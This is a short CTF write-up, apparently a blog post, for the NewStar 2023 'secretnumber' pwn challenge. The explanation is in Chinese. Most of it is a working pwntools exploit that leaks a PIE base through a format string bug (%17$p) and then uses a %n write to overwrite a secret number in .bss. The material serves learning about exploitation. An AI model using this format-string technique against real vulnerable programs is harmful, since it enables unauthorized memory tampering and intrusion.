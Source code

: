 ```yaml
---
title: newstar2023 week2 - secretnumber
date: 2023/10/3 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过格式化字符串漏洞，利用bss上的secret数字地址进行覆盖，成功解题。
---
```


## 文件分析

下载`secretnumber`, 保护全开  
ghidra分析为64位程序

## 解题思路

输入1后可以触发格式化字符串漏洞，由于secret数字放在bss上，所以可以先获得地址，
在写入小数字覆盖，然后输入非1数字进入猜数字环节，输入覆盖的数字即可

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 29392)

# payload 1
sh.sendline(b'1')
sh.sendlineafter(b'it', b'%17$p') # locate main to get pieBase

sh.recvuntil(b'gift:\n')
pieBase = int(sh.recvline()[:14], 16) - 0x12f5
secretAddr = pieBase + 0x404c

sh.sendline(b'1')
sh.sendlineafter(b'it', b'pad_%9$n' + p64(secretAddr)) # arg8: pad_%9$n, arg9: secretAddr

sh.sendlineafter(b'/1)', b'0')
sh.sendlineafter(b'number', b'4')
sh.interactive()
```

Done.
